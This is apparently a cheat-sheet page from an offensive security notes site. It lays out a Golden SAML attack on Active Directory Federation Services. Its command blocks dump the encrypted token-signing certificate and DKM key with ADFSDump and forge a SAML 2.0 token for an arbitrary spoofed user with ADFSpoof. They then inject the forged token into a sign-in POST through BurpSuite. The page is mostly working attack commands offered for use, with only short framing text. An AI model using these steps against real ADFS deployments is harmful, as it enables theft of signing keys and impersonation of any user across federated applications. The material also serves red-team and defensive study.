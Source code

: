 ```yaml
---
title: "ADFS"
date: 2024-9-14
tags: ["SAML", "Token-Based Authentication", "ADFS", "Active Directory", "Windows", "Federation Services"]
---
```


### Abuse #1: Generate a SAML 2.0 token for some app

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Dump encrypted PFX and DKM key

```console
# With ADFS service account
.\ADFSDump.exe
```

<small>*Ref: [ADFSDump](https://github.com/mandiant/ADFSDump)*</small>

#### 2. Convert to binary blob

```console
# Copy private key(s)
echo '<PRIVATE_KEY>' | sed 's/-//g' | xxd -r -p > DkmKey.bin
```

```console
# Copy Encrypted Token Signing Key Begin ... Encrypted Token Signing Key End
cat b64_blob | base64 -d > EncryptedPfx.bin
```

#### 3. Check which private key is correct

```console
# The correct key will not show error
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin dump
```

<small>*Ref: [ADFSpoof](https://github.com/mandiant/ADFSpoof)*</small>

#### 4. Generate SAML 2.0 token

```console
# Copy info from ADFS dump
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s <SERVER> saml2 --endpoint <SIGN_IN_ENDPOINT> --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid <SPOOF_USER>@<DOMAIN> --rpidentifier <IDENTIFIER> --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue><SPOOF_USER>@<DOMAIN></AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue><SPOOF_USER></AttributeValue></Attribute>' 
```

#### 5. Modify request in BurpSuite

```console
+-------------------------------------------------------------+
| 1. Enable Intercept in Proxy Tab                            |
| 2. Sign In with the Web App                                 |
| 3. Click Forward until the POST request with 'SAMLResponse' |
| 4. Replace the payload and Forward                          |
| 5. Disable Intercept and profit                             |
+-------------------------------------------------------------+
```

{{< /tabcontent >}}
